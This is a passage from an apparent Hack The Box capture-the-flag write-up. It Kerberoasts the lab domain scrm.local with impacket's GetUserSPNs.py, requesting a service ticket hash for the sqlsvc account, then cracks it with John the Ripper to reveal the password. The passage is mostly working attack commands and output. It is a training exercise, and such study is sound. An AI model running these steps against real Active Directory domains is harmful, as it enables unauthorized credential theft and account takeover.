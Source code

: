 ```sh
┌──(root㉿kali)-[~/htb/scrambled/impacket]
└─# python3 -m pip install .
Processing /root/htb/scrambled/impacket
  Preparing metadata (setup.py) ... done
Requirement already satisfied: chardet in /usr/lib/python3/dist-packages (from impacket==0.10.1.dev1+20220708.213759.8b1a99f7) (4.0.0)
Collecting dsinternals
  Downloading dsinternals-1.2.4.tar.gz (174 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 174.2/174.2 kB 1.9 MB/s eta 0:00:00
  Preparing metadata (setup.py) ... done
<SNIP>
Successfully built impacket dsinternals
Installing collected packages: dsinternals, impacket
  Attempting uninstall: impacket
    Found existing installation: impacket 0.9.24
    Uninstalling impacket-0.9.24:
      Successfully uninstalled impacket-0.9.24
```

Finally we can run again to get our hash:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# python3 GetUserSPNs.py -dc-ip dc1.scrm.local scrm.local/ksimpson -request -k -no-pass
Impacket v0.10.1.dev1+20220708.213759.8b1a99f7 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 16:32:02.351452  2022-07-10 20:11:44.221570             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 16:32:02.351452  2022-07-10 20:11:44.221570             

$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$bb8f4319a7e559125e94d7518b9a1eb6$b917eb19722e7da2837ef7f1ab984f
05700ee81bd1e6855e2fdf62539f49f26aa1544496a3967c95304e65974cebd8170e1cf5ab15acd7a5dbb18f956286240ab0c0e8674b30e30
<SNIP>
```

## John The Ripper

Put that hash in a text file and use JohnTheRipper to crack it:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# john sqlsvc.hash -w=/usr/share/wordlists/rockyou.txt                         

Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Pegasus60        (?)     
1g 0:00:00:45 DONE (2022-07-10 21:35) 0.02175g/s 233401p/s 233401c/s 233401C/s Penrose..Pearce
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
